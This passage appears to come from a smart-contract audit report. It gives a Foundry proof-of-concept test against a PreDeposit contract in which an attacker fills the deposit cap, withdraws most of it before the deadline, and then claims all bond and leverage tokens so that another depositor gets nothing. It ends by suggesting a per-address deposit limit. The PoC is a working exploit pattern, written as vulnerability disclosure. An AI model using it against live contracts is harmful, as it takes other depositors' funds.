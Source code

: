 ```solidity
    reserveToken.approve(address(preDeposit), DEPOSIT_AMOUNT);
    vm.expectRevert(PreDeposit.DepositCapReached.selector);
    preDeposit.deposit(DEPOSIT_AMOUNT);
    vm.stopPrank();

    
    vm.startPrank(governance);
    preDeposit.setBondAndLeverageAmount(BOND_AMOUNT, LEVERAGE_AMOUNT); // 各 50 ether
    vm.stopPrank();
    // before deposit endtime,withdraw most ReserveToken 
    vm.startPrank(user1);
    preDeposit.withdraw(99 ether); // leaving 1 ether
    uint256 user1_after_withdraw_balance=reserveToken.balanceOf(user1);
    console.logUint(user1_after_withdraw_balance);
    vm.stopPrank();
    // after deposit endtime,create pool
    vm.startPrank(governance);
    vm.warp(block.timestamp + 8 days); // After deposit period
    poolFactory.grantRole(poolFactory.POOL_ROLE(), address(preDeposit));
    preDeposit.createPool();
    vm.stopPrank();

    
    address bondToken = address(Pool(preDeposit.pool()).bondToken());
    address leverageToken = address(Pool(preDeposit.pool()).lToken());
    // attacker claim all tokens
    vm.prank(user1);
    preDeposit.claim();
    
    vm.prank(user2);
    vm.expectRevert(PreDeposit.NothingToClaim.selector);
    preDeposit.claim();
    
    uint256 user1_bond_share = BondToken(bondToken).balanceOf(user1);
    uint256 user1_lev_share = BondToken(leverageToken).balanceOf(user1);
    uint256 user2_bond_share = BondToken(bondToken).balanceOf(user2);
    uint256 user2_lev_share = BondToken(leverageToken).balanceOf(user2);

    assertEq(user1_bond_share, user1_lev_share);
    assertEq(user1_bond_share, 50 ether);
    assertEq(user2_bond_share, 0 ether);
    assertEq(user2_lev_share, 0 ether);

  }
 
}




```

### Mitigation

1. set maximum deposit limit per address in deposit() function at PreDeposit.sol